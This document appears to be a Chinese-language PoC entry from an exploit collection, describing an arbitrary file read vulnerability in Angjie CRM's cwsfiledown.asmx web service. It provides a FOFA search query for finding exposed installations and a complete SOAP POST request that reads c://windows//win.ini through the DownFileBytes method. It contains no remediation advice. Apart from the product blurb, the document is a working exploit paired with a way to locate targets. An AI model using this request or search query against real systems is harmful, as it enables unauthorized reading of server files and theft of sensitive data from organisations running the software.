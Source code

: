 # 昂捷CRM cwsfiledown存在任意文件读取漏洞

# 一、漏洞简介
昂捷CRM (Customer Relationship Management) 是深圳市昂捷信息技术股份有限公司提供的一款专注于零售行业客户关系管理的系统。旨在帮助零售企业更好地管理客户、提升客户满意度和忠诚度，从而推动业务增长，该系统集成了客户信息管理、会员营销、客户服务等多个功能模块，为零售企业提供全方位的客户关系管理解决方案。昂捷CRM cwsfiledown存在任意文件读取漏洞

# 二、影响版本
```plain
昂捷CRM 
```

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`body="/ClientBin/slEnjoy.App.xap"`
+ 特征

![1732852842698-06314946-c4c6-4d0b-9bae-51ed78196135.png](./img/_tSJqR4iociFGCpX/1732852842698-06314946-c4c6-4d0b-9bae-51ed78196135-940796.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/FileDown/cwsfiledown.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/DownFileBytes"
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <DownFileBytes xmlns="http://tempuri.org/">
      <sFileName>c://windows//win.ini</sFileName>
      <iPosition>1</iPosition>
      <iReadBytesLen>100</iReadBytesLen>
      <bReadBytes>ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg</bReadBytes>
    </DownFileBytes>
  </soap:Body>
</soap:Envelope>
```

![1732852903103-dc8fee22-2072-4144-87f5-54115f4c75e2.png](./img/_tSJqR4iociFGCpX/1732852903103-dc8fee22-2072-4144-87f5-54115f4c75e2-049077.png)



> 更新: 2024-12-20 14:53:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ucrqld04f4zvnq32>